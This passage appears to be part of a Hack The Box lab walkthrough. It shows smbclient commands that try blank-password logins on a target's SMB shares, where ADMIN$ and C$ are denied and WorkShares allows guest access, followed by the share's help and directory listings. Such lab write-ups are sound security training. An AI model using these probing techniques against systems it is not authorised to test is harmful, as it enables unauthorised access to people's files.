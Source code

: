 # 3. Foothold

We will try to connect to each of the shares except for the `IPC$` one, which is not valuable for us in this exercise since it is not browsable as any regular directory would be. Using the same tactic as before, attempting to log in without the proper credentials to find improperly configured permissions on any of these shares. We'll just give a blank password for each username to see if it works.

- For `ADMIN$` we don't have permission:
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-v2cvbixxdl]─[~]
	└──╼ [★]$ smbclient \\\\10.129.154.189\\ADMIN$
	Password for [WORKGROUP\scrage]:
	tree connect failed: NT_STATUS_ACCESS_DENIED
	
- For `C$` we don't have permission:
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-v2cvbixxdl]─[~]
	└──╼ [★]$ smbclient \\\\10.129.154.189\\C$
	Password for [WORKGROUP\scrage]:
	tree connect failed: NT_STATUS_ACCESS_DENIED
	
- But we can access WorkShares as guest user:
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-v2cvbixxdl]─[~]
	└──╼ [★]$ smbclient \\\\10.129.154.189\\WorkShares
	Password for [WORKGROUP\scrage]:
	Try "help" to get a list of possible commands.
	smb: \> 

Any folders that are human-made, are prone to misconfiguration. And we've just exploited that.

We can use the help command to see what we can do within this shell.

	smb: \> help
	?              allinfo        altname        archive        backup       
	blocksize      cancel         case_sensitive cd             chmod        
	chown          close          del            deltree        dir          
	du             echo           exit           get            getfacl      
	geteas         hardlink       help           history        iosize       
	lcd            link           lock           lowercase      ls           
	l              mask           md             mget           mkdir        
	more           mput           newer          notify         open         
	posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir  
	posix_unlink   posix_whoami   print          prompt         put
	pwd            q              queue          quit           readlink
	rd             recurse        reget          rename         reput
	rm             rmdir          showacls       setea          setmode
	scopy          stat           symlink        tar            tarmode
	timeout        translate      unlock         volume         vuid         
	wdel           logon          listconnect    showconnect    tcon
	tdis           tid            utimes         logoff         ..
	!
	smb: \> dir
	  .                                   D        0  Mon Mar 29 03:22:01 2021
	  ..                                  D        0  Mon Mar 29 03:22:01 2021
	  Amy.J                               D        0  Mon Mar 29 04:08:24 2021
	  James.P                             D        0  Thu Jun  3 03:38:03 2021
			5114111 blocks of size 4096. 1750591 blocks available
